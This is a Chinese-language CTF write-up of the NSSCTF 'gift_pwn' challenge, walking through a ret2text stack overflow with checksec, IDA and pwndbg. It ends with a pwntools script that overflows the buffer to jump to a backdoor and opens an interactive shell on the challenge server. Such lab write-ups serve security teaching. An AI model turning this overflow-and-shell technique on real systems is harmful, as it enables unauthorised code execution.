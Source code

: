 ```yaml
---
title: "Pwn练习题"
date: 2023-12-05
categories: 
  - "pwn"
tags: 
  - "ctf"
---
```


题目来源于NSSCTF网站

## ret2text

### \[SWPUCTF 2021 新生赛\]gift\_pwn

先放到虚拟机里checksec一下，能看到开启NX，没有PIE，64位

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701694411-image.png)

放进64位的IDA反编译一下，可以看到在gift函数里留了后门

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701694499-image.png)

然后再vuln函数里有read函数，存在溢出

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701694609-image.png)

ret2text的基本做法就是让读入的buf溢出到system/bin/sh的地址

这里对于buf的长度，有两种判断方式，要么直接看IDA反编译的结果（这个有可能不准），要么就进入动态调试查看

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701700201-image.png)

这里先将read函数的地址复制下来在虚拟机的pwndbg里进行断点调试

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701700257-image.png)

计算RAX和RBP的差值，即为数组的实际长度

```
print(0x7fffffffe380-0x7fffffffe370)
#16
```

那么ret2text的基本框架就是这样👇

```
from pwn import *

io = remote('node4.anna.nssctf.cn',28980)
target=0x00000000004005C4  #system/bin/sh的地址

payload=b'a'*(16+8)+p64(target)  #栈溢出
#如果是32位指针大小就是4，如果是64位指针大小就是8
io.send(payload)
io.interactive()
```
